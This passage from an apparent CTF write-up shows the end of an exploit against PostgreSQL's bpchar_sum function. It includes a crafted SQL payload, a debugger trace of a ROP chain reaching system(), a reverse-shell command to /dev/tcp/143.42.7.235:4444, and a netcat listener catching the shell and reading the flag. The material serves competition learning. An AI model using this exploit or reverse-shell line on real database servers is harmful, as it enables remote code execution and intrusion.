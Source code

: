 ```py
    )

    cur.execute(flat(
        b"SELECT '\\x",
        b'deadbeef', # add 4B padding to align the rest of payload to 8B
        fake_struct.hex().encode(),
        b'aaaaaaaa' * 0x400000,
        b"'::bytea, bpchar_sum('1', '",
        payload.strip(b'\x00'), # no null bytes allowed
        b"')"
    ))
```

```c
   0x7f87a7523f6d <setcontext+125>    xor    eax, eax
 ► 0x7f87a7523f6f <setcontext+127>    ret                                  <0x7f87a750a766; iconv+198>
    ↓
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a750a765 <iconv+197>         pop    rdi
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a752f3a0 <system>            test   rdi, rdi
──────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ rsp                             0x7f87995ce140 —▸ 0x7f87a750a766 (iconv+198) ◂— ret 
01:0008│ rbx rcx rdx rdi rsi r14 r15 rbp 0x7f87995ce148 —▸ 0x7f87a750a766 (iconv+198) ◂— ret 
02:0010│+008                             0x7f87995ce150 —▸ 0x7f87a750a765 (iconv+197) ◂— pop rdi
03:0018│+010                             0x7f87995ce158 —▸ 0x7f87995be068 ◂— '/bin/bash -c "/bin/sh -i >& /dev/tcp/143.42.7.235/4444 0>&1"   '
04:0020│+018                             0x7f87995ce160 —▸ 0x7f87a752f3a0 (system) ◂— test rdi, rdi
05:0028│+020                             0x7f87995ce168 ◂— 0xaaaaaaaaaaaaaaaa
... ↓                                    2 skipped
```

Resume code execution and observe a connection to our machine:

```c
\root@localhost:~# nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on XXXXX.dynamic.chello.pl 49276
/bin/sh: 0: can't access tty; job control turned off
$ /readflag
rwctf{2db7c906-ca64-4348-bd2a-97ae482cef47}
```

Final exploit code can be found [here](https://github.com/rivit98/ctf-writeups/blob/master/2024/realworld/pgsum/solve.py)

